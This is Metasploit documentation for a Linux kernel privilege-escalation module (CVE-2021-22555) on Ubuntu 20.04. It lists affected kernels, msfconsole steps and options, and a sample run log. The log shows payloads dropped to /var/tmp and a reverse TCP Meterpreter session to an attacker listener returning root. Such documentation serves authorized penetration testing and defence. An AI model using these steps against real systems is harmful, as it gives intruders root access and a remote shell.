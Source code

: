 ## Description

This module attempts to gain root privileges on Linux systems with a vulnerable Ubuntu kernel.

## Vulnerable Application
CVE-2021-22555 takes advantage of a heap out-of-bounds write when memset() is called, allowing for messages in the MSGMNI queue to reference a pointer that has been written by the exploit, resulting in code execution.  

Tested on Ubuntu 20.04:
- 5.8.0-53-generic #60~20.04.1-Ubuntu
- 5.8.0-50-generic #56~20.04.1-Ubuntu
- 5.8.0-49-generic #55~20.04.1-Ubuntu
- 5.8.0-48-generic #54~20.04.1-Ubuntu
- 5.8.0-29-generic #31~20.04.1-Ubuntu
- 5.8.0-28-generic #30~20.04.1-Ubuntu
- 5.8.0-25-generic #26~20.04.1-Ubuntu
- 5.8.0-23-generic #24~20.04.1-Ubuntu

## Verification Steps
1. Start `msfconsole`
2. Get a session
3. `use exploit/linux/local/netfilter_xtables_heap_oob_write_priv_esc`
4. `set SESSION [SESSION]`
5. `check`
6. `run`
7. You should get a new _root_ session

## Options
### SESSION

Which session to use, which can be viewed with sessions

### WritableDir

A writable directory file system path. (default: /var/tmp)

### CmdTimeout

How long to wait for a reply when executing commands on the remote system
The vulnerability was discovered by Andy Nguyen [@theflow0](https://twitter.com/theflow0).

## Scenarios
```
msf exploit(linux/local/netfilter_xtables_heap_oob_write_priv_esc) > run

[*] Started reverse TCP handler on 192.168.1.145:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Target is running kernel release 5.8.0-48-generic.
[*] Dropping pre-compiled binaries to system...
[*] Writing '/var/tmp/flTJOaqhI' (734660 bytes) ...
[*] Uploading payload...
[*] Writing '/var/tmp/ckaFBkiL' (250 bytes) ...
[*] Running payload on remote system...
[*] Sending stage (3012548 bytes) to 192.168.1.67
[+] Deleted /var/tmp/flTJOaqhI
[+] Deleted /var/tmp/ckaFBkiL
[*] Meterpreter session 2 opened (192.168.1.145:4444 -> 192.168.1.67:43322) at 2021-09-28 14:20:41 +0100
[*] Payload executed!

meterpreter > getuid
Server username: root @ ubuntu-virtual-machine (uid=0, gid=0, euid=0, egid=0)
```

In the case of receiving an error, the user can retry the exploit unless the message queue on the target has been exhausted. In that case, the system needs to be rebooted for the exploit to work again.
